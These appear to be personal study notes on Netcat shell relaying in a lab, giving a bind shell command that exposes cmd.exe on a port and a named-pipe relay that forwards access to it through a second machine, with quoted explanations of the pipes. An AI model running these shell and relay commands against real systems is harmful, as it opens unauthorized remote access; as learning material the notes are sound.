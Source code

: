 Machine #1: Windows (10.10.0.1)
Machine #2: Linux (10.10.75.1)

1. Start up a listening shell on Machine #1 

** nc -l -p 54321 -e cmd.exe

The -e means it will execute a shell once it received a connection on that port

2. On Machine #2 create a named pipe and start a relay to interact with it

** mknod backpipe p
** nc -l -p 11111 0<backpipe | nc 10.10.0.1 54321 1>backpipe


This step was kind of tricky to me, no one really explained to me exactly what a backpipe is

"In the context of the command nc -l -p 11111 0<backpipe | nc 10.10.0.1 54321 1>backpipe, a named pipe (backpipe) is being utilized to establish a relay between two instances of the nc (Netcat) command.



nc -l -p 11111 0<backpipe: This command initiates a listening mode (-l) on port 11111 using Netcat (nc). The 0<backpipe part reads input from the named pipe (backpipe). This means that any data written into backpipe will be sent out through the listening Netcat process on port 11111.

 The 1>backpipe part writes output to the named pipe (backpipe)
 
 
  This means that any data received from the remote server at 10.10.0.1:54321 will be written into backpipe, 
  
  
  
nc 10.10.0.1 54321 1>backpipe: This command establishes a connection to the specified IP address (10.10.0.1) and port (54321) using Netcat. The 1>backpipe part writes output to the named pipe (backpipe). This means that any data received from the remote server at 10.10.0.1:54321 will be written into backpipe, which will then be read by the listening Netcat process established in the first part of the command.


"

According to the AI Overlords, 


"...The command mknod is used to create **special files** in Unix-like operating systems. In this context, mknod is being used to create a named pipe, which is a special type of file that allows **interprocess communication (IPC) between processes.**"

"...Here's what each part of the command mknod backpipe p means:

mknod: This is the command itself used to create special files.
backpipe: This is the name given to the named pipe. You can choose any name you want for the named pipe.
p: This specifies that we are creating a named pipe. In Unix-like systems, p is the type for a named pipe.
"


"
In Unix-like operating systems, there are primarily two types of pipes: unnamed pipes (also known as anonymous pipes) and named pipes (also known as FIFOs - First In, First Out).
